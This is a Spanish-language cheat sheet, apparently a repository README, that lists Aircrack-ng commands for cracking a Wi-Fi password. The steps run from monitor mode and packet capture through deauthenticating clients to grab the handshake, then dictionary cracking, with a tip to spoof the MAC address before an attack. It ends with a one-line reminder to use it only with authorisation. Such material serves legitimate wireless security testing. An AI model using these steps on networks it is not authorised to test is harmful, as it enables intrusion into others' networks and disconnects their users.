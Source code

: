 # 📡 Comandos esenciales para Aircrack-ng

## 1️⃣ Verificar la interfaz de red
Para listar las interfaces de red disponibles:

```bash
airmon-ng
```

## 2️⃣ Habilitar el modo monitor
Sustituye `wlan0` por el nombre de tu interfaz:

```bash
airmon-ng start wlan0
```

## 3️⃣ Escanear redes disponibles
Para ver las redes Wi-Fi cercanas:

```bash
airodump-ng wlan0mon
```

## 4️⃣ Capturar paquetes de una red específica
Ejemplo de captura en un archivo:

```bash
airodump-ng -c [canal] --bssid [BSSID] -w captura wlan0mon
```
- `[canal]`: Canal en el que opera la red.
- `[BSSID]`: Dirección MAC del router.
- `-w captura`: Guarda la captura en un archivo llamado `captura`.

## 5️⃣ Desautenticar clientes (ataque de deautenticación)
Para expulsar dispositivos de una red y capturar el handshake:

```bash
aireplay-ng -0 5 -a [BSSID] -c [MAC_cliente] wlan0mon
```
- `-0 5`: Envía 5 paquetes de deautenticación.
- `[BSSID]`: MAC del router.
- `[MAC_cliente]`: MAC de la víctima (opcional).

## 6️⃣ Crackear la clave Wi-Fi
Si se obtuvo el handshake, usar un diccionario:

```bash
aircrack-ng -w diccionario.txt -b [BSSID] captura.cap
```
- `-w diccionario.txt`: Diccionario de contraseñas.
- `-b [BSSID]`: MAC del router.
- `captura.cap`: Archivo de captura.

## 7️⃣ Desactivar el modo monitor
Para volver al modo normal:

```bash
airmon-ng stop wlan0mon
```

## 🔥 Consejos adicionales
- Usa `iwconfig` para verificar el estado de las interfaces.
- Usa `ifconfig wlan0 down` y `macchanger -r wlan0` para cambiar la MAC antes de un ataque.
- Asegúrate de tener permisos de root (`sudo su`).

🚨 **Solo úsalo en redes de tu propiedad o con autorización.**
